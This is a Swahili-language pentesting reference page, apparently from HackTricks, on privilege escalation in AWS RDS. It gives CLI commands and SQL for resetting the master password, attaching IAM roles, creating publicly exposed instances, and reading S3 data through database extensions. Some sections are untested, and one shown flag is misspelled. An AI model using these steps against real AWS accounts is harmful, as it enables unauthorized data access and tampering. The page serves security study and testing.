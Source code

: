# AWS - RDS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## RDS - Huduma ya Hifadhidata ya Uhusiano

Kwa maelezo zaidi kuhusu RDS angalia:

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### `rds:ModifyDBInstance`

Kwa ruhusa hiyo mshambuliaji anaweza **kubadilisha nenosiri la mtumiaji mkuu**, na kuingia ndani ya hifadhidata:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
> [!WARNING]
> Utahitaji kuwa na uwezo wa **kuwasiliana na hifadhidata** (zinapatikana kwa kawaida tu kutoka ndani ya mitandao).

**Athari Zinazoweza Kutokea:** Pata taarifa nyeti ndani ya hifadhidata.

### rds-db:connect

Kulingana na [**docs**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) mtumiaji mwenye ruhusa hii anaweza kuungana na mfano wa DB.

### Tumia Ruhusa za RDS Role IAM

#### Postgresql (Aurora)

> [!TIP]
> Ikiwa unakimbia **`SELECT datname FROM pg_database;`** unapata hifadhidata inayoitwa **`rdsadmin`** unajua uko ndani ya **hifadhidata ya AWS postgresql**.

Kwanza unaweza kuangalia kama hifadhidata hii imetumika kufikia huduma nyingine yoyote ya AWS. Unaweza kuangalia hii kwa kutazama nyongeza zilizowekwa:
```sql
SELECT * FROM pg_extension;
```
Ikiwa unapata kitu kama **`aws_s3`** unaweza kudhani kuwa hifadhidata hii ina **aina fulani ya ufikiaji juu ya S3** (kuna nyongeza nyingine kama **`aws_ml`** na **`aws_lambda`**).

Pia, ikiwa una ruhusa ya kukimbia **`aws rds describe-db-clusters`** unaweza kuona huko ikiwa **klasta ina IAM Role yoyote iliyoambatanishwa** katika uwanja **`AssociatedRoles`**. Ikiwa ipo, unaweza kudhani kuwa hifadhidata ilikuwa **imeandaliwa kufikia huduma nyingine za AWS**. Kulingana na **jina la jukumu** (au ikiwa unaweza kupata **ruhusa** za jukumu) unaweza **kukisia** ni ufikiaji gani wa ziada hifadhidata ina.

Sasa, ili **kusoma faili ndani ya bakuli** unahitaji kujua njia kamili. Unaweza kuisoma kwa:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Ikiwa ungekuwa na **akidi za AWS za msingi** unaweza pia kuzitumia kufikia data za S3 kwa:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
> [!NOTE]
> Postgresql **haitaji kubadilisha chochote katika parameter group variable** ili kuweza kufikia S3.

#### Mysql (Aurora)

> [!TIP]
> Ndani ya mysql, ukikimbia query **`SELECT User, Host FROM mysql.user;`** na kuna mtumiaji anayeitwa **`rdsadmin`**, unaweza kudhani uko ndani ya **AWS RDS mysql db**.

Ndani ya mysql kimbia **`show variables;`** na ikiwa variables kama **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, zina thamani, unaweza kudhani database imeandaliwa kufikia data za S3.

Pia, ikiwa una ruhusa ya kukimbia **`aws rds describe-db-clusters`** unaweza kuangalia ikiwa cluster ina **associated role**, ambayo kwa kawaida inamaanisha ufikiaji wa huduma za AWS).

Sasa, ili **kusoma faili ndani ya bucket** unahitaji kujua njia kamili. Unaweza kuisoma kwa:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Mshambuliaji mwenye ruhusa `rds:AddRoleToDBCluster` na `iam:PassRole` anaweza **kuongeza jukumu lililobainishwa kwenye mfano wa RDS uliopo**. Hii inaweza kumwezesha mshambuliaji **kupata data nyeti** au kubadilisha data ndani ya mfano.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Madhara Yanayoweza Kutokea**: Ufikiaji wa data nyeti au mabadiliko yasiyoidhinishwa kwenye data katika RDS instance.\
Kumbuka kwamba baadhi ya DB zinahitaji mipangilio ya ziada kama Mysql, ambayo inahitaji kubainisha ARN ya jukumu katika vikundi vya aprameter pia.

### `rds:CreateDBInstance`

Kwa ruhusa hii tu, mshambuliaji anaweza kuunda **instance mpya ndani ya klasta** ambayo tayari ipo na ina **IAM role** iliyounganishwa. Hataweza kubadilisha nenosiri la mtumiaji mkuu, lakini anaweza kuwa na uwezo wa kufichua instance mpya ya database kwa mtandao:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

> [!NOTE]
> TODO: Test

Mshambuliaji mwenye ruhusa `rds:CreateDBInstance` na `iam:PassRole` anaweza **kuunda mfano mpya wa RDS ukiwa na jukumu lililowekwa**. Mshambuliaji anaweza kisha **kufikia data nyeti** au kubadilisha data ndani ya mfano huo.

> [!WARNING]
> Baadhi ya mahitaji ya jukumu/profili ya mfano ili kuunganisha (kutoka [**hapa**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

> - Profaili lazima iwepo katika akaunti yako.
> - Profaili lazima iwe na jukumu la IAM ambalo Amazon EC2 ina ruhusa ya kulichukua.
> - Jina la profaili ya mfano na jina la jukumu la IAM lililohusishwa lazima ianze na kiambishi `AWSRDSCustom`.
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
**Athari Inayoweza Kutokea**: Ufikiaji wa data nyeti au mabadiliko yasiyoidhinishwa kwenye data katika RDS instance.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Mshambuliaji mwenye ruhusa `rds:AddRoleToDBInstance` na `iam:PassRole` anaweza **kuongeza jukumu lililotajwa kwenye RDS instance iliyopo**. Hii inaweza kumwezesha mshambuliaji **kufikia data nyeti** au kubadilisha data ndani ya instance hiyo.

> [!WARNING]
> DB instance lazima iwe nje ya klasta kwa hili
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
**Madhara Yanayoweza Kutokea**: Ufikiaji wa data nyeti au mabadiliko yasiyoidhinishwa kwenye data katika RDS instance.

{{#include ../../../banners/hacktricks-training.md}}
